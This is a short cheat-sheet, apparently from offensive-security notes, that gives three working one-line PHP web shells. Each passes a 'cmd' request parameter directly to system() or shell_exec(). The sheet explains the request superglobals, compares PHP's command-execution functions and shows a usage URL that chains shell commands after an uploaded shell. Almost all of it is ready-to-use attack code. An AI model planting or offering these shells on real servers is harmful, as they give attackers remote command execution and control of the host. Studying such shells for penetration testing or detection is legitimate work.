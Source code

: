 
```php
<?php
    echo system($_GET["cmd"]);
?>
```

```php
<?php
    echo system($_REQUEST["cmd"]);
?>
```

```php
<?php
	echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>";
?>
```

`$_POST` can catch the data which is sent using POST method
`$_GET` can catch the data which is sent using GET method
`$_REQUEST` can catch the data which is sent using **both POST & GET methods**

**exec()**: returns the last line of output from the command and flushes nothing.
**shell_exec()**: returns the entire output from the command and flushes nothing.
**system()**: returns the last line of output from the command and tries to flush the output buffer after each line of the output as it goes.
**passthru()**: returns nothing and passes the resulting output without interference to the browser, especially useful when the output is in binary format.

maybe use (`2>&1`) too

Use by entering a URL and "view source" for prettier output
http://test.com/uploaded-files/webshell.php?cmd=id;whoami;ls

This also uses the fact that ; at a shell prompt makes it possible to run several commands after each other

